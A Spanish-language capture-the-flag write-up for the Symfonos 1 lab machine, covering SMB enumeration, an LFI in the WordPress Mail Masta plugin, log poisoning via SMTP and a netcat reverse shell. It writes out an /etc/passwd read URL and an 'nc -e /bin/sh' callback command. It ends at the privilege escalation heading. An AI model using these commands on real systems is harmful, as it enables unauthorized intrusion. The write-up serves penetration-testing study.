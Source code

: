 Yo me monté una red de 3 máquinas con 2 redes internas, para poder solo tener acceso a Symfonos 1 e ir pivoteando para ganar acceso a la máquina final que sería Symfonos 5.
![[descarga (2).png]]

# Symfonos 1 
## Enumeración
Comenzamos con la Symfonos 1:
![[Pasted image 20221025210139.png]]
Ahí vemos que tiene redireccionamiento DNS, a symfonos.local, así que lo agregamos al /etc/hosts.
![[Pasted image 20221025210326.png]]
Nada raro. Vamos a ver el samba que está corriendo por los puertos 139 y 445.
![[Pasted image 20221025210431.png]]
Ya sabemos que hay un usuario que se llama helios.
![[Pasted image 20221025210525.png]]
Probemos estas contraseñas en samba con el usuario helios: 
![[Pasted image 20221025210624.png]]
Vemos algunos archivos, pero el que nos interesa es el todo.txt
![[Pasted image 20221025210714.png]]
/h3l105, probemos en la página web.
![[Pasted image 20221025210937.png]]
## Ganando acceso al Sistema
Enumeremos con wpscan:
![[Pasted image 20221025213048.png]]
Chan. mail masta, un plugin vulnerable a [[LFI (Local File Inclusion)]] 
![[Pasted image 20221025213156.png]]
Versión 1.0.0, lo cuál es vulnerable al exploit 40290.txt de searchsploit
En el exploit nos dice que para leer archivos del servidor mediante Mail Masta, hay que ir a la siguiente ruta: 
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send?p/etc/passwd

![[Pasted image 20221025213517.png]]

Con esto, nos podemos montar un script en bash que lea el archivo que le pedimos, que lo dejo en mi github: https://github.com/luccamusomecci/privilege-escalation-linux/lfi.sh
![[Pasted image 20221025215238.png]]

Con esto, sabiendo que tiene Mail Masta y el puerto 25 smtp abierto, podemos hacer lo siguiente:
![[Pasted image 20221025215333.png]]

Para realizar un [[RCE (Remote Code Execution)]], hay que hacer lo siguiente desde telnet:
![[Pasted image 20221025215637.png]]
Entonces ahora, si le hacemos un curl -s -X GET ...
![[Pasted image 20221025215810.png]]
Llegó nuestro mail con código malicioso! Ahora para saber si funcionó, hay que sumarle al final de la lína del curl un &cmd=whoami:
![[Pasted image 20221025215917.png]]
Ahora, para ganar una reverse shell, hay que introducir el comando nc -e /bin/sh 192.168.100.104 1234
![[Pasted image 20221025220043.png]]
Ganamos acceso al servidor! ahora hay que hacer un [[Tratamiento de la TTY]]
## Escalada de privilegios Vertical